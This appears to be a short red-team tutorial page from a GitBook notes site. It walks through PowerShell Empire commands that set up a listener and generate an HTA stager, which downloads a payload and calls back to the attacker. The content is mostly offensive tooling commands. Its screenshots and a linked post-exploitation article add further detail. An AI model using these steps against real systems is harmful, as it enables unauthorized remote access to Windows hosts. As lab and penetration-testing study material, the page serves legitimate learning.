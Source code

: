 # Powershell Empire 101

## Listener

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
// Empire commands used
?
uselistener meterpreter
info
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/empire-listener.png)

Starting the listener:

```text
execute
```

![](../.gitbook/assets/empire-startlistener.png)

## Stager

Stager will download and execute the final payload which will call back to the listener we set up previously - `meterpreter`- below shows how to set it up and generate:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
//specify what stager to use
usestager windows/hta

//associate stager with the meterpreter listener
set Listener meterpreter

//write stager to the file
set OutFile stage.hta

//create the stager
execute
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/empire-stager%20%281%29.png)

A quick look at the stager code:

![](../.gitbook/assets/stager-hta.gif)





{% embed data="{\"url\":\"https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/\",\"type\":\"link\",\"title\":\"How to Use PowerShell Empire: Getting Started with Post-Exploitation of Windows Hosts\",\"description\":\"PowerShell Empire is a post-exploitation framework for computers and servers running Microsoft Windows, Windows Server operating systems, or both. In these tutorials, we will be exploring everything from how to install Powershell Empire to how to snoop around a victim\'s computer without the antivirus software knowing about it. If we are lucky, we might even be able to obtain domain administrator credentials and own the whole network. A Tool for Targeting Windows Exploit frameworks are popular, and most hackers have heard of Metasploit, a framework that automates the deployment of powerful\",\"icon\":{\"type\":\"icon\",\"url\":\"https://img.wonderhowto.com/images/favicons/wonderhowto/favicon-194x194.png\",\"width\":194,\"height\":194,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://img.wonderhowto.com/img/85/10/63638593407829/0/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts.1280x600.jpg\",\"width\":1280,\"height\":600,\"aspectRatio\":0.46875}}" %}

